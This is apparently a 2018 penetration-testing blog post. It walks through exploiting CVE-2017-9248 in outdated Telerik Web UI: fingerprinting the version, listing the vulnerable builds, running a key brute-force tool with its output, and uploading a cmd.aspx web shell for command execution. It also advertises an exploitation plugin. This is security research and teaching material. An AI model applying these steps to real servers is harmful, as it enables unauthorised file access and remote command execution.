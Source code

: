 ```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
---
```


## Introduction 

Over the past months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party component to make your application’s interface the way you want it. However, a vulnerability in this component could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code just like here. 
![Source1](/static/img/10/01.png)
> _**TIP #1:** There are times where you’ll not find exactly the string **Telerik.Web.UI** from the HTML code. However, if you find the string **Telerik**, just keep on browsing the other pages of the application and search for the string **Telerik.Web.UI** again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify the version of Telerik Web UI and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  


Finding the version can either be easy or tricky. To get the exact version, just view the HTML code. In the case below, the version information sits right next to the string **Telerik.Web.UI**. That’s easy.
![Source2](/static/img/10/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify the version of Telerik Web UI is by going through the HTML comments just like here. 
![Source3](/static/img/10/03.png)
So you could just view the HTML code and search for the string "**<!-- 20**".


Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" **Telerik.Web.UI.DialogHandler.aspx**. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string "**Loading the dialog…**" when accessing the dialog handler.
![Loading](/static/img/10/04.png)
> _**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. 


Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```sh
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

If we access the discovered link, we can see that we now have access to all the files and folders of the web server. More importantly, we can see that we can upload arbitrary files to the server.
![Document Manager](/static/img/10/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
![Shell](/static/img/10/06.png)

And here’s an example of command execution using the uploaded shell.
![Shell Upload](/static/img/10/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instance of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
![Passive](/static/img/10/08.png)

Here’s what the tab looks like where you can perform the exploitation part.
![Tab](/static/img/10/09.png)

That's it. Feel free to contribute in the development of the tool and report/fix some issues.
